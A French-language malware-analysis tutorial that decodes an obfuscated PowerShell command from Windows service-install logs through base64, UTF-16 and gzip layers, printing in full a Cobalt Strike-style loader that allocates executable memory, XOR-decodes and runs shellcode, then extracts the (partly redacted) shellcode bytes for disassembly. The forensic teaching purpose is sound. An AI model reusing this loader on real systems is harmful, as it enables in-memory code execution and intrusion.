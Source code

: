 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

Rebelotte, décodons la chaîne en base 64 avec Python.

```python
>>> data = "H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDACTED]"

>>> base64.b64decode(data)
b'\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00\xadV\xefs\xda8\x13\xfe\x1c\xfe\n}\xc8\x8c\xed)P\x12ri\xe8Mf\xcao\xcc\x0b\x84\xc6$\xa1\xe5\x18F\xc821\x11\x16H\xb2\xc1\\\xfb\xbf\xbf+\x1bs\xf4\x9a\xbcog\xee2\xc3D\x96vW\xbb\xcf>\xbb+\x87\xaa\x82\xa3\x84OT\x9f\xbb\x14\x15\x1e\xa9\x90>\x0f\xd0e.w\xde\xe0\xb6B\xb7\xe8\x93\x91\xf3\xc2\x80(\xbd\xad\x17\xb3\x05U\xb3\xb5\xe0d\x86]WP)\xd1\x9f\xb9\xb3!\x16x\x85\xcc\xf3\x08\x8b\xd9\x8a\xbb!\xa3y\x94|hA\xea\x86\x82Zgg\xb9\xb3d+\x0c$\xf6\xe8,\xc0\xca\x8f\xe8lE\xd53w%\\dN\xaa\xebu\x83\xaf\xb0\x1fL?~\xac\x87B\xd0@\xa5\xdf\xc56UU)\xe9j\xce|*M\x0b}CO\xcfT\xd0\xc2\xdd|I\x89B\x7f\xa2\xf3Y\xb1\xcd\xf8\x1c\xb3\x83X\\\xc7\xe4\x19\x02\xaa\x06\xae>\xebq\x82u\x04Eg\xcd|e\x1a\x7f\xfcaX\x93\xc2\xc5\xb4\xd8\xdc\x84\x98I\xd3pb\xa9\xe8\xaa\xe82fX\xe8\xbb\xa5[REDACTED]'
```

Pas d'UTF-16 cette fois. En revanche, la chaîne est compressée. Dans le code Powershell obtenu, la chaîne est décodée puis décompressée <code>IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)</code>. Ce que nous allons donc reproduire avec notre chaîne fraîchement décodée .

```python
>>> zipped = io.BytesIO(base64.b64decode(data))
>>> f = gzip.GzipFile(fileobj=zipped)
>>> f.read()
b"Set-StrictMode -Version 2\n\n$DoIt = @'\nfunction func_get_proc_address {\n\tParam ($var_module, $var_procedure)\t\t\n\t$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')\n\t$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))\n\treturn $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))\n}\n\nfunction func_get_delegate_type {\n\tParam (\n\t\t[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,\n\t\t[Parameter(Position = 1)] [Type] $var_return_type = [Void]\n\t)\n\n\t$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])\n\t$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\t$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\n\treturn $var_type_builder.CreateType()\n}\n\n[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0[REDACTED]')\n\nfor ($x = 0; $x -lt $var_code.Count; $x++) {\n\t$var_code[$x] = $var_code[$x] -bxor 35\n}\n\n$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))\n$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)\n[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)\n\n$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))\n$var_runme.Invoke([IntPtr]::Zero)\n'@\n\nIf ([IntPtr]::size -eq 8) {\n\tstart-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job\n}\nelse {\n\tIEX $DoIt\n}\n"
```

Nous obtenons alors un script Powershell contenant encore une fois une donnée encodée en base 64. Cependant, une grande partie du code est lisible :

```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs7qHsDIvDAH2qoF6gi9RLcEuOP4uwuIuQbw1bXIF7bGF4HVsF7qHsHIvBFqC9oqHs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

Que fait ce script ? Grossomodo, alloue de la mémoire afin de pouvoir y stocker la chaîne encodée en base 64 et enfin l'exécuter. Une fois n'est pas coutume, décodons cette chaîne. Notons que la chaîne, une fois décodée est XORée avec 35.

Ce script est très utilisée notamment par les malwares afin d'envoyer un beacon CobaltStrike au serveur de contrôle - à savoir, pour lui envoyer les informations concernant la nouvelle machine tout juste infectée. Ce qui implique que dans notre dernière chaîne encodée/XORée, nous allons trouver un shellcode qui pourrait nous donner quelques informations utiles !

Une autre manière d'obtenir notre shellcode est d'exécuter la commande dans un terminale ISE :

```
[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

Write-Output $var_code
```

Nous obtenons de cette manière une chaîne décimale, qu'on l'on va convertir en hexadécimal.

```
252 232 130 0 0 0 96 137 229 49 192 100 139 80 48 139 82 12 [REDACTED]

fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 [REDACTED]
```

# Désassembler le shellcode

Pour comprendre ce que fait notre shellcode, nous pouvons le désassembler avec shellen (https://github.com/merrychap/shellen).

![dsm_shellcode1.png](/img/decode-shellcode/dsm_shellcode1.png)

